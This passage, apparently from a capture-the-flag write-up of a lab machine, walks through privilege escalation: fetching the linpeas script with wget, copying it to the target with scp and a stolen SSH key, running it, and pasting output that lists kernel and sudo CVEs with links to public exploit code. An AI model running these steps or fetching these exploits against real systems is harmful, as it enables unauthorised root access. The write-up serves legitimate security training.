 ## Privilege escalation

- Let's get linpeas `wget https://github.com/carlospolop/PEASS-ng/releases/download/20230205/linpeas_linux_amd64`
- We will need to use scp because of the restrictions we had previously [here](https://csbygb.gitbook.io/pentips/post-exploitation/files-transfert#ssh-creds-needed) is an example on scp `scp FILE-TO-SEND user@ip:/path/to/folder` so in my case `scp -i routerspace_rsa linpeas_linux_amd64 paul@10.10.11.148:/home/paul` (we need to specify the key)
- `chmod +x linpeas_linux_amd64` from the target we make our file executable
- `./linpeas_linux_amd64` we can run it

### Interesting output

- So here is what we could investigate from our linpeas output

```bash
Vulnerable to CVE-2021-3560 # This one shows up as a 95% PE vector
# It is also worth checking the other CVEs found by linpeas
[+] [CVE-2022-2586] nft_object UAF

   Details: https://www.openwall.com/lists/oss-security/2022/08/29/5
   Exposure: probable
   Tags: [ ubuntu=(20.04) ]{kernel:5.12.13}
   Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: probable
   Tags: [ ubuntu=20.04 ]{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded

[+] [CVE-2022-32250] nft_object UAF (NFT_MSG_NEWSET)

   Details: https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/
```